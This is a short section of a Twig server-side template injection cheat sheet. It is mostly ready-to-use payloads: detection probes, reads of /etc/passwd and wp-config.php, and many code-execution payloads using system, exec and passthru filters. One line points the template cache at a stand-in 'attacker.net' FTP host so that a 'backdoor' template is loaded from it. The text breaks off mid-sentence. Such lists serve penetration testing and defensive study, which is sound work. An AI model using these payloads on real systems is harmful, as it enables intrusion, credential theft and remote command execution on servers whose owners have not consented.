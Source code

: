 
## Twig

[Official website](https://twig.symfony.com/)
> Twig is a modern template engine for PHP.

### Twig - Basic injection

```python
{{7*7}}
{{7*'7'}} would result in 49
{{dump(app)}}
{{dump(_context)}}
{{app.request.server.all|join(',')}}
```

### Twig - Template format

```python
$output = $twig > render (
  'Dear' . $_GET['custom_greeting'],
  array("first_name" => $user.first_name)
);

$output = $twig > render (
  "Dear {first_name}",
  array("first_name" => $user.first_name)
);
```

### Twig - Arbitrary File Reading

```python
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{include("wp-config.php")}}
```

### Twig - Code execution

```python
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{[0]|reduce('system','id')}}
{{['id']|map('system')|join}}
{{['id',1]|sort('system')|join}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id']|filter('passthru')}}
{{['id']|map('passthru')}}
```

Example injecting values to avoid using quotes for the filename (specify via OFFSET and LENGTH where the payload FILENAME is)
